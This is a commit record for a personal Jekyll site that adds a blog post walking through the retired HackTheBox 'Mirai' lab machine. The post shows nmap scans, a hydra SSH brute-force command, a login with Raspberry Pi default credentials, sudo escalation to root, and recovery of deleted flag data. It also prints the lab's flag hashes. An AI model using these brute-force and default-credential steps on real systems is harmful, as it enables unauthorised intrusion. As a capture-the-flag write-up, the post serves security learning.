

Before and after one commit to luizfzs/luizfzs.github.io.old, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the top 873 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Add Hacking Mirai post

```diff
--- a/_includes/header.html
+++ b/_includes/header.html
@@ -17,6 +17,7 @@
   <link href="{{ '/assets/css/theme.css' | relative_url }}" rel="stylesheet">
   <link href="{{ '/assets/css/syntax.css' | relative_url }}" rel="stylesheet">
   <link href="{{ '/assets/css/font-awesome/css/font-awesome.min.css' | relative_url }}" rel="stylesheet">
+  <link rel="shortcut icon" type="image/png" href="favicon.png">
 </head>
 
 <body>
--- /dev/null
+++ b/_posts/2018-02-10-htb-ctf-mirai.md
@@ -0,0 +1,312 @@
+---
+layout: post
+title: "HackTheBox - Hacking Mirai"
+date: 2018-02-10 16:00:00
+tags: hackthebox ctf
+description: HackTheBox was the first CTF site that I actually played with. Hacking Mirai was great, using previous knowledge, getting to learn new stuff. It felt awesome when the root hash was accepted. I hope you have fun reading.
+---
+
+### **Disclaimer:**
+As by the ToS of HackTheBox, solutions cannot be posted before the machine is retired, so you won't be able to use this post as your way into the described machine, since it'll already be out-of-service.
+
+# Preface
+HackTheBox was the first CTF site that I signed up and actually got my hands dirty. The experience is being awesome. If you want somewhere to practice, gather more knowledge, or have some fun, give it a try: https://www.hackthebox.eu/invite
+**Reminder:** You have to hack your way in to the registration process. It is worth.
+
+# Let's begin
+As my first CTF machine, I've chosen Mirai due the difficulty ratings on the list of available machines: Mirai was the lowest hanging fruit. It's IP was `10.10.10.48`. Let the games begin!
+
+## Enumerating
+> On my machine
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@kali:~# nmap -sS -A -T5 10.10.10.48
+
+Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-02 23:24 -02
+Nmap scan report for 10.10.10.48
+Host is up (0.26s latency).
+Not shown: 997 closed ports
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
+| ssh-hostkey:
+|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
+|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
+|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
+|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (EdDSA)
+53/tcp open  domain  dnsmasq 2.76
+| dns-nsid:
+|_  bind.version: dnsmasq-2.76
+80/tcp open  http    lighttpd 1.4.35
+|_http-server-header: lighttpd/1.4.35
+|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
+Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.8 (95%), Linux 3.8 - 3.11 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%)
+No exact OS matches for host (test conditions non-ideal).
+Network Distance: 2 hops
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
+
+TRACEROUTE (using port 1025/tcp)
+HOP RTT       ADDRESS
+1   259.10 ms 10.10.14.1
+2   258.63 ms 10.10.10.48
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 34.05 seconds
+{% endraw %}
+{% endhighlight %}
+
+That's good. We have a SSH and HTTP service to work on. I'd have started brute-forcing on SSH immediately if I knew any users, so I put it aside for the moment.
+
+### HTTP server
+Accessing http://10.10.10.48 returned an empty page.
+
+![img]({{ '/assets/images/mirai/empty-http.png' | relative_url}}){: .center-image}*Empty page on http://10.10.10.48*
+
+Nothing to work with. So I fired up ``nmap`` again with some native scripts to see if any of them returned stuff I could further explore. The interesting results are below.
+
+> On my machine
+{:.filename}
+{% highlight text %}
+{% raw %}
+# Nmap 7.60 scan initiated Fri Feb  2 23:29:50 2018 as: nmap -O -A -sS --script=default,vuln -T5 -o nmap-out2.txt 10.10.10.48
+Nmap scan report for 10.10.10.48
+Host is up (0.25s latency).
+Not shown: 997 closed ports
+PORT   STATE SERVICE VERSION
+22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
+| ssh-hostkey:
+|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
+|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
+|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
+|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (EdDSA)
+53/tcp open  domain  dnsmasq 2.76
+| dns-nsid:
+|_  bind.version: dnsmasq-2.76
+80/tcp open  http    lighttpd 1.4.35
+| http-cookie-flags:
+|   /admin/:
+|     PHPSESSID:
+|       httponly flag not set
+|   /admin/index.php:
+|     PHPSESSID:
+|_      httponly flag not set
+
+... info removed ...
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+# Nmap done at Fri Feb  2 23:32:04 2018 -- 1 IP address (1 host up) scanned in 133.64 seconds
+{% endraw %}
+{% endhighlight %}
+
+Now we know about the existence of ``/admin/`` and ``/admin/index.php`` (that end up both returning the same page).
+![img]({{ '/assets/images/mirai/pi-hole.png' | relative_url}}){: .center-image}*Pi-hole page at http://10.10.10.48/admin*
+
+While searching about Pi-hole, I found it's github repository. From there, I started looking for possible users that might be used on the Mirai machine, ending up discovering `pihole`.
+
+Since it was the easiest machine at the time, I assumed that it would be enough to proceed.
+
+### Release the `hydra`
+I went forward and fired up `hydra`
+
+> On my machine
+{:.filename}
+{% highlight text %}
+{% raw %}
+hydra -l pihole -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.48 -t 20 -V
+{% endraw %}
+{% endhighlight %}
+
+`rockyou.txt` is fairly large, so after some minutes I thought I could go have dinner while `hydra` did it's thing, not putting so much faith on the outcome, honestly.
+
+With refreshed mind, I came back and noticed that I'd forgotten to add `-e nsr`, so I went ahead and tested some combinations manually aswell. The followed combinations resulted in nothing.
+{% highlight text %}
+{% raw %}
+pihole:pihole
+pihole:elohip
+pihole:pi
+{% endraw %}
+{% endhighlight %}
+
+Suddenly, I had the epiphany. Damn, it might be a Raspberry Pi which had the default credentials `pi:raspberry`.
+> On my machine
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@kali:~# ssh pi@10.10.10.48
+pi@10.10.10.48's password:
+
+pi@raspberrypi:~ $
+{% endraw %}
+{% endhighlight %}
+
+Great! I was in!
+
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+pi@raspberrypi:~ $ ls
+background.jpg  Documents  list.dir  oldconffiles  Public        root.dir   root.txt   Videos
+Desktop         Downloads  l.dir  Music     Pictures      python_games  root.list  Templates
+{% endraw %}
+{% endhighlight %}
+
+Seeing `root.txt` made me `cat root.txt` but it was empty. It was probably left behind by other people as other files on the same directory.
+
+### Getting the `user` flag
+Getting the user flag was pretty straightforward:
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+pi@raspberrypi:~ $ find . -name 'user.txt'
+./Desktop/user.txt
+find: `./Desktop/lost+found': Permission denied
+
+pi@raspberrypi:~ $ cat ./Desktop/user.txt
+ff837707441b257a20e32199d7c8838d
+{% endraw %}
+{% endhighlight %}
+One down. Let's root it now!
+
+### Getting the `root` flag
+Another thing that Raspbian has is being able to `sudo` without a password.
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+pi@raspberrypi:~ $ sudo su
+root@raspberrypi:/home/pi#
+root@raspberrypi:/home/pi# cd ~
+root@raspberrypi:~# pwd
+/root
+{% endraw %}
+{% endhighlight %}
+
+As I `ls`'ed on /root I saw:
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@raspberrypi:~# ls
+recovered files  root.txt
+root@raspberrypi:~# cat root.txt
+I lost my original root.txt! I think I may have a backup on my USB stick...
+{% endraw %}
+{% endhighlight %}
+It was almost a 'not so fast, young man'. That engaged me more on the challenge.
+
+To find the mounted partitions, I ran `df -h`
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@raspberrypi:~# df -h
+Filesystem      Size  Used Avail Use% Mounted on
+aufs            8.5G  2.8G  5.3G  35% /
+tmpfs           101M   13M   88M  13% /run
+/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
+/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
+tmpfs           251M     0  251M   0% /lib/live/mount/overlay
+/dev/sda2       8.5G  2.8G  5.3G  35% /lib/live/mount/persistence/sda2
+devtmpfs         10M     0   10M   0% /dev
+tmpfs           251M  8.0K  251M   1% /dev/shm
+tmpfs           5.0M  4.0K  5.0M   1% /run/lock
+tmpfs           251M     0  251M   0% /sys/fs/cgroup
+tmpfs           251M  8.0K  251M   1% /tmp
+/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
+tmpfs            51M     0   51M   0% /run/user/999
+tmpfs            51M     0   51M   0% /run/user/1000
+{% endraw %}
+{% endhighlight %}
+There you are.
+
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@raspberrypi:~# cd /media/usbstick
+root@raspberrypi:/media/usbstick# ls
+damnit.txt  lost+found
+root@raspberrypi:/media/usbstick# cat damnit.txt
+Damnit! Sorry man I accidentally deleted your files off the USB stick.
+Do you know if there is any way to get them back?
+
+-James
+{% endraw %}
+{% endhighlight %}
+
+Damn it, James! `lost+found` had nothing. Well, maybe James tried to recover the file. Let's check the `history` (only the relevant info is shown).
+
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@raspberrypi:/media/usbstick/lost+found# history
+   39  extundelete
+   58  cd .local/
+   60  cd share/
+   62  cd Trash/
+   64  cd files/
+{% endraw %}
+{% endhighlight %}
+
+I `ls`'ed `/home/pi/.local/share/Trash/files` but there was nothing relevant. Let's try this `extundelete` command.
+
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@raspberrypi:/media/usbstick/lost+found# extundelete -h
+bash: extundelete: command not found
+{% endraw %}
+{% endhighlight %}
+
+I naïvely tried installing it via `apt`. The box couldn't communicate with the outer-world.
+
+I searched about `extundelete` and found it's sourceforce page, where I spent a few minutes learning about it. That's when I saw:
+{% highlight text %}
+{% raw %}
+Typically, you would replace "partition" in the above examples by a device name like "sda4" or "hdb7". When either of those commands successfully completes, you can now take the next steps leisurely - you will no longer make anything worse by waiting. If you would like to make a backup of your partition, you may do so by a command such as:
+$ dd bs=4M if=/dev/partition of=partition.backup
+{% endraw %}
+{% endhighlight %}
+It made a lot of sense. If I could make a backup of the usb stick and download it, I could mount the backup it on my machine and run `extundelete` locally, since it was only 8MB (check `df -h` output) and it could be downloaded easily. And so I proceeded. I ran `dd if=/dev/sdb of=usb_backup bs=1M` and downloaded it via `scp`.
+Before searching the proper way to mount a file as a directory, why not run `strings usb_backup`?
+
+> On the server
+{:.filename}
+{% highlight text %}
+{% raw %}
+root@kali:~# strings usb_backup
+>r &
+/media/usbstick
+lost+found
+root.txt
+damnit.txt
+>r &
+>r &
+/media/usbstick
+lost+found
+root.txt
+damnit.txt
+>r &
+/media/usbstick
+2]8^
+lost+found
+root.txt
+damnit.txt
+>r &
+3d3e483143ff12ec505d026fa13e020b
+Damnit! Sorry man I accidentally deleted your files off the USB stick.
+Do you know if there is any way to get them back?
+-James
+{% endraw %}
+{% endhighlight %}
+
+There you are, *root hash*!
+
+## Wrapping up
+I was my first CTF machine, so some actions were naïve and I overthought a lot, that made me miss some kind of obvious stuff at first glance. It felt very good to start with an IP and work my way in using some knowledge I previously had, get a shell on the machine and finally some out-of-the-box thinking to find the root hash. If it wasn't for the previously knowledge about the default credentials of Raspbian, it'd have taken a LOT of time to get in. . It motivated me more to keep working on these machines, gaining knowledge and having fun (and sometimes wanting to hit my head on the wall :)
+
+exit(0);
```
Also changed, not shown: assets/images/mirai/empty-http.png (added), assets/images/mirai/pi-hole.png (added), favicon.png (added), 11 other files.
